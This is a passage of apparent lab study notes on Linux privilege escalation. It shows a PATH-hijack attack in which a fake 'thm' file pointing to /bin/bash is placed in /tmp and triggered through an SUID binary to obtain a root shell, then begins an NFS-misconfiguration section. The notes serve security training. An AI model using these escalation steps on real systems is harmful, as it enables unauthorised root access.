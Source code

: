 * "test" file appears to be compiled version of thm.py script.

./test

sh: 1: thm: not found

* No path defined for script.
* Linux will look in the PATH environment to find the executable and will execute the first one it finds.
* Add /tmp directory into the beginning of the PATH environment.

export PATH=/tmp:$PATH

* Copy /bin/bash as "thm" under the /tmp folder.

cd /tmp

echo "/bin/bash" > thm

* Give executable rights to copy of /bin/bash

chmod 777 thm

ls -l thm

\-rwxrwxrwx 1 karen karen 10 Feb 13 14:17 thm

* home\murdoch\test file will run with root privileges as SUID bit set.

cd /home/murdoch

whoami

karen

id

uid=1001(karen) gid=1001(karen) groups=1001(karen)

./test

whoami

root

id

uid=0(root) gid=0(root) groups=0(root),1001(karen)

### **Privilege Escalation: NFS** <a href="#xgm0v8mc2oiq" id="xgm0v8mc2oiq"></a>

* Shared folders and remote management interfaces (SSH / Telnet) can help gain root access to a target.
  * E.g. finding root SSH private key.
* Misconfigured network shell may be another attack vector.
* Network File Sharing (NFS) located in \`/etc/exports/ file.
  * Created during NFS server install.

cat /etc/exports

\# /etc/exports: the access control list for filesystems which may be exported

